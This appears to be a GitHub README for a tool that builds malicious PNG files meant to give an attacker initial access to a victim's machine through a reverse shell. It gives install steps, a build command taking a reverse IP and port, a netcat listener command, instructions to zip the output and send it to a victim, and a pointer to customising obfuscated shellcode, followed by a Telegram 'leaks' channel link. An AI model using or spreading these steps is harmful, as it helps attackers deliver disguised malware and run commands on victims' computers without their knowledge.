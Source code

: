 # X-malicious-image-builder
png malware for initial access and open rev sockets

## installation
`git clone https://github.com/hunt3rub/X-image-malware.git`<br/>
`pip install -r requirements.txt`

## how to build PNG malware?
### 1- build malicious PNG picture:
`python3 main.py -reverse-ip 192.168.1.1 -reverse-port 4242 -img custom-picture.png`<br/>
### 2- zip or rar build folder:
open build folder and `zip all files`.
see a picture with png format and two hidden picture.

### 3- open listener:
`nc -lvnp 4242`<br/>
> [!NOTE]
> you must open port 4242 in firewall and have static ip.

### 4- send zip folder to Victim:
after open PNG file you can access to victim and exec command!

## customized shellcode:
open shellcode.py and set your custom payload with obfuscate.<br/>

### for free gaza<br/>
telegram channel: https://t.me/our_leaks
